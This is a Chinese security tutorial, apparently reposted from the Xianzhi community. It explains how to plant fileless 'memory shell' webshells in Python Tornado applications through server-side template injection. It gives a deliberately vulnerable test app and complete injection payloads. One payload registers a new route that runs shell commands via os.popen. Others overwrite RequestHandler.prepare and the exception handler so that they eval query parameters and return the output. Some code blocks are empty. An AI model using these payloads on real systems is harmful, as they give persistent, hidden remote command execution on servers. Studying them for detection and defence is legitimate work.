








# Tornado框架内存马学习-先知社区

> **来源**: https://xz.aliyun.com/news/16594  
> **文章ID**: 16594

---

# 思路

Web 服务的内存马的构造一般是两个思路：

1. 注册一个新的 url，绑定恶意的函数
2. 修改原有的 url 处理逻辑

# 测试代码

```
import tornado.ioloop
import tornado.web


class IndexHandler(tornado.web.RequestHandler):
    def get(self):
        tornado.web.RequestHandler._template_loaders = {}#清空模板引擎

        with open('index.html', 'w') as (f):
            f.write(self.get_argument('name'))#GET方式传name参数
        self.render('index.html')


app = tornado.web.Application(
    [('/', IndexHandler)],
)
app.listen(5000, address="127.0.0.1")
tornado.ioloop.IOLoop.current().start()
```

对于 Tornado 来说，一旦 `self.render` 之后，就会实例化一个 `tornado.template.Loader`，这个时候再去修改文件内容，它也不会再实例化一次。所以这里需要把 `tornado.web.RequestHandler._template_loaders` 清空。否则在利用的时候，会一直用的第一个传入的 payload。

# 路由规则分析

跟进Application



再往下看，发现存在一个类似于 `flask` 中 `add_url_rule` 的函数 `add_handlers`， 会将指定的路由加入当前的路由表中 ， 这意味着，如果我们能够控制输入并触发该方法，就可以在运行时向应用中加入新的处理程序。

```
def add_handlers(self, host_pattern: str, host_handlers: _RuleList) -> None:
    """Appends the given handlers to our handler list.

    Host patterns are processed sequentially in the order they were
    added. All matching patterns will be considered.
    """
    host_matcher = HostMatches(host_pattern)
    rule = Rule(host_matcher, _ApplicationRouter(self, host_handlers))

    self.default_router.rules.insert(-1, rule)

    if self.default_host is not None:
     self.wildcard_router.add_rules(
    [(DefaultHostMatches(self, host_matcher.host_pattern), host_handlers)] )
        
def add_rules(self, rules: _RuleList) -> None:
"""Appends new rules to the router.

:arg rules: a list of Rule instances (or tuples of arguments, which are
   passed to Rule constructor).
"""
for rule in rules:
    if isinstance(rule, (tuple, list)):
       assert len(rule) in (2, 3, 4)
      if isinstance(rule[0], basestring_type):
         rule = Rule(PathMatches(rule[0]), *rule[1:])
      else:
         rule = Rule(*rule)

 self.rules.append(self.process_rule(rule))
```

# 新增注册路由

## 参数构造

`add_handlers` 这个函数声明接受两个参数 `host_pattern` 和 `host_handlers`，其中 `host_pattern` 是一个字符串没有什么需要多考虑的，这个场景下直接构造 `.*` 匹配所有域名即可，而第二个参数 `host_handlers` 较为复杂一点，类型为 `_RuleList`，跟进一下`_RuleList`

```
_RuleList = List[
    Union[
        "Rule",
        List[Any],  # Can't do detailed typechecking of lists.
        Tuple[Union[str, "Matcher"], Any],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any]],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any], str],
    ]
]
```

再往下看`add_rules` 函数

```
def add_rules(self, rules: _RuleList) -> None:
    """Appends new rules to the router.

    :arg rules: a list of Rule instances (or tuples of arguments, which are
        passed to Rule constructor).
    """
    for rule in rules:
        if isinstance(rule, (tuple, list)):
            assert len(rule) in (2, 3, 4)
            if isinstance(rule[0], basestring_type):
                rule = Rule(PathMatches(rule[0]), *rule[1:])
            else:
                rule = Rule(*rule)

        self.rules.append(self.process_rule(rule))
```

在 `add_rules` 中，整个传入的值都会被作为构造参数来实例化一个 `Rule` 对象，构造函数如下：

```
    def __init__(
        self,
        matcher: "Matcher",
        target: Any,
        target_kwargs: Optional[Dict[str, Any]] = None,
        name: Optional[str] = None,
    ) -> None:
```



`add_rules`方法用于向路由器添加新的规则。每个规则通常由一个匹配器（`Matcher`）和一个目标处理器（`target`）组成，其中匹配器决定了哪些请求应该被该规则处理，而目标处理器则是实际处理这些请求的对象。对于`add_rules`方法而言，它接受一系列规则作为参数，这些规则可以是预先构建好的`Rule`对象，也可以是能够用来构造`Rule`对象的元组或列表

当传入给`add_rules`的是一个元组或列表，并且其第一个元素为字符串时，Tornado会自动调用`PathMatches`类来生成一个匹配器对象。这简化了我们的任务，因为我们不需要手动实例化复杂的匹配器对象，只需要提供一个简单的路径模式字符串即可。例如：

```
rule = ('/path/to/match', handler_class)
```

这里的`'/path/to/match'`将被转换成一个`PathMatches`对象，用于匹配特定的URL路径；而`handler_class`则是负责处理匹配到的请求的类。

为了实现内存马，我们需要创建一个新的`RequestHandler`子类，这个子类能够在接收到HTTP请求时执行某些恶意代码。由于Python支持运行时动态创建类的能力，我们可以使用内置的`type()`函数来完成这项工作。具体来说，`type()`函数允许我们通过指定类名、基类以及类属性/方法字典来创建一个新的类型。在这个例子中，我们将创建一个名为x的新类，它继承自`tornado.web.RequestHandler`，并且重写了`get`方法，以便它可以接收命令行指令并执行它们。

```
type(
    "x",
    (__import__("tornado").web.RequestHandler,),
    {
        "get": lambda x: x.write(__import__('os').popen(x.get_argument('cmd')).read())
    }
)
```

* `"x"` 是新类的名字。
* `(__import__("tornado").web.RequestHandler,)` 指定了新类将继承自`tornado.web.RequestHandler`。
* `{ "get": ... }` 定义了新类的一个属性——`get`方法，这是一个匿名函数（lambda），它会在接收到POST请求时被执行。这个匿名函数从请求参数中提取名为`"cmd"`的内容， 并通过`__import__('os').popen(...)`执行这段命令，最后将结果转换成字符串形式返回给客户端。

## 最终的内存马

我们将前面提到的所有元素组合在一起，构成了完整的Payload：

```
{{handler.application.add_handlers(".*",[("/4",type("x",(__import__("tornado").web.RequestHandler,),{"get":lambda x: x.write(__import__('os').popen(x.get_argument('cmd')).read())}))])}}
```



成功 执行任意系统命令。

# 覆盖处理函数

对于 Tornado 来说，每次请求都是一个全新的 handler 和 request，所以这种直接给 handler 绑定恶意函数的利用方式是不行的

### 理解 `handler` 和 `RequestHandler`

首先，理解`handler`是`RequestHandler`的一个实例非常重要。每次HTTP请求到来时，Tornado都会为该请求创建一个新的`RequestHandler`实例

这意味着任何直接绑定到单个`handler`实例上的恶意函数，在该请求结束后就会失效，因为`handler`实例会被销毁。因此，我们需要找到一种方法，使得即使在请求结束后，也能持续生效。

### 修改类级别行为

既然实例级别的修改无法持久化，我们可以考虑修改类本身的行为。这样做可以让所有新创建的`RequestHandler`实例都继承这些变化，从而实现“源头投毒”。具体来说，就是改变`RequestHandler`类的方法，比如`prepare()`，这是一个在每个请求开始前都会被调用的方法

## 构造内存马

我们需要确保lambda表达式能够正确接收当前活动的`RequestHandler`实例作为参数，并且能够动态地从当前请求中提取参数。

调用`handler.get_query_argument("cmd", "id")`获取URL参数`cmd`的值；如果没有提供`cmd`参数，则默认使用`"id"`。

```

```

这里的关键点在于：

* `handler.__class__`：指向`RequestHandler`类本身，而不是某个具体的实例。
* `lambda self`: Lambda函数接收一个名为`self`的参数，代表当前正在处理请求的那个`RequestHandler`实例。
* `self.write(...)`: 使用当前实例的方法进行输出，避免了`RuntimeError`。
* `self.get_query_argument(...)`: 动态获取当前请求中的参数，保证了灵活性。





成功构造

# 异常情况下的内存马

在Tornado中，每个传入的HTTP请求都会由一个特定的`RequestHandler`实例来处理。这个过程通常包括解析URL、匹配路由规则、调用相应的处理器方法（如`get()`或`post()`）等步骤。然而，任何阶段都可能发生意外状况，比如参数验证失败、数据库查询错误等，这些都可能导致程序抛出异常

## 异常处理入口：\_handle\_request\_exception

一旦请求处理链中的任何一个环节出现了未捕获的异常，控制流就会立即转移到`RequestHandler._handle_request_exception`方法中进行处理。这是一个非常重要的方法，因为它决定了应用程序在遇到问题时的行为。默认情况下，它会做几件事情：

* **记录异常信息**：对于非`Finish`类型的异常，它会调用`log_exception`方法记录详细的错误日志，这对于后续的问题排查至关重要。
* **设置响应状态码**：根据异常的具体类型（如是否为`HTTPError`），决定返回给客户端的状态码。如果是`HTTPError`，则直接使用其携带的状态码；否则，默认设置为500 Internal Server Error。
* **发送错误响应**：调用`send_error`方法向客户端发送一个适当的错误页面或消息。这一步骤最终会触发`write_error`方法生成HTML内容，并通过调用`finish`结束请求。

## 数据输出机制

现在我们来谈谈数据是如何被写入和发送出去的。在正常情况下，`RequestHandler.write()`方法的作用是将数据写入到内部缓冲区`_write_buffer`中，而不是立即发送出去。这是因为Tornado采用了异步非阻塞的设计理念，允许多个请求共享同一个线程，从而提高了并发性能。因此，为了保证效率，它不会在每次调用`write()`时就立刻发送数据，而是等到合适时机再一次性地将所有缓存的数据发送出去。这个“合适时机”通常是通过调用`flush()`方法来触发的，后者会检查当前是否有未发送的数据，并调用更底层的传输函数如`request.connection.write()`来完成实际的数据发送工作

## 使用 request.connection.write

为了确保即使在异常情况下也能成功回显数据，可以考虑直接操作`request.connection.write()`。这种方法绕过了标准的输出缓冲机制，直接将数据发送给客户端，因此即使是在`finish()`之后或发生异常的情况下也能工作

```
{{handler.__class__.prepare = lambda self: self.request.connection.write((str(eval(self.get_query_argument("cmd", "id")))).encode())}}
```




## 覆盖异常处理函数

直接覆盖`_handle_request_exception`方法，这样可以在异常发生时仍然允许使用`write()`方法向客户端发送数据。通过这种方式，我们可以创建一个自定义的行为，使得即使遇到异常也能执行命令并返回结果

```

```

* `handler.__class__._handle_request_exception` 是对当前请求处理器类的`_handle_request_exception`方法的引用。正常情况下，这个方法负责处理未捕获的异常，并返回适当的错误响应给客户端。
* `lambda x, y: [...]` 创建了一个匿名函数，该函数接受两个参数（通常是`self`和异常对象），但忽略了它们，直接执行列表推导式中的表达式。这里的`x`实际上是`RequestHandler`实例本身，而`y`则是异常对象。
* `[x.write(...), x.finish()][0]` 用来确保即使`write()`方法抛出了异常，`finish()`也会被执行。这是因为Python会计算整个列表表达式的值，即使某个元素引发了异常，只要不是最后一个元素，就不会阻止后续语句的执行。这里选择索引`[0]`是为了让表达式的最终结果是`None`，避免不必要的返回值干扰。
* `(str(eval(x.get_query_argument("cmd", "id")))).encode()` 这部分代码从查询参数中获取名为`cmd`的值，默认值为字符串`"id"`。然后，它使用`eval()`函数评估这个字符串，将其当作Python表达式执行。最后，将结果转换成字符串并编码为字节串，准备发送回客户端。
* `x.write(...)` 将上述编码后的数据直接写入响应体。
* `x.finish()` 结束请求处理，确保所有已写入的数据都被发送给客户端，并关闭连接。





参考文章：

<https://www.tr0y.wang/2022/08/05/SecMap-SSTI-tornado/#%E5%85%89%E9%80%9F%E5%85%A5%E9%97%A8>
